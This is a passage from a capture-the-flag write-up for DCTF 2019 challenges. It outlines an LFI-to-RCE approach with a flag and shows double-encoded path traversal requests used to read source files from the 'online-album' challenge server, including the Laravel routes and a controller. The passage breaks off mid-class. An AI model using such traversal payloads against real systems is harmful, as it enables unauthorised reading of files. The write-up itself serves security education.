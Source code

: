 And there is a LFI vulnerability: `?page=xxxxx`

So our target is to put malicious php code into image, then use LFI include it to RCE.

![](https://github.com/w181496/CTF/raw/master/dctf2019-qual/imgur/imgur.png)

`DCTF{762241E8981F7E4C2B134C2894747990989FB5DFF0A3AD8DB5A0CEB5D05CBD8D}`

### online-album

In this challenge, the `/download/` path looks so weird.

e.g. Visiting `/download/index.php` will show the php source code.

After fuzzing, I found path traversal vulnerability: `https://online-album.dctfq19.def.camp/download/%252e%252e%252fcomposer.json`

So we can read any php source code now:

`/download/%252e%252e%252froutes/web.php`

```php
<?php

/*
|--------------------------------------------------------------------------
| Web Routes
|--------------------------------------------------------------------------
|
| Here is where you can register web routes for your application. These
| routes are loaded by the RouteServiceProvider within a group which
| contains the "web" middleware group. Now create something great!
|
*/

Route::get('/', function () {
    return view('welcome');
});

Auth::routes();

Route::get('/home', 'HomeController@index')->name('home');
Route::get('/album/{path}', 'HomeController@album')->name('album')->where('path', '.*');
Route::get('/download/{path}', 'HomeController@download')->name('download')->where('path', '.*');
Route::post('/auto-logout', 'HomeController@auto_logout')->name('auto-logout');
```

Let's read the HomeController: `/download/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f/var/www/html/app/Http/Controllers/HomeController.php`

```php
<?php

namespace App\Http\Controllers;

use Illuminate\Http\Request;
use Auth;

class HomeController extends Controller
{
    /**
     * Create a new controller instance.
     *
     * @return void
     */
    public function __construct()
    {
        $this->middleware('auth');
```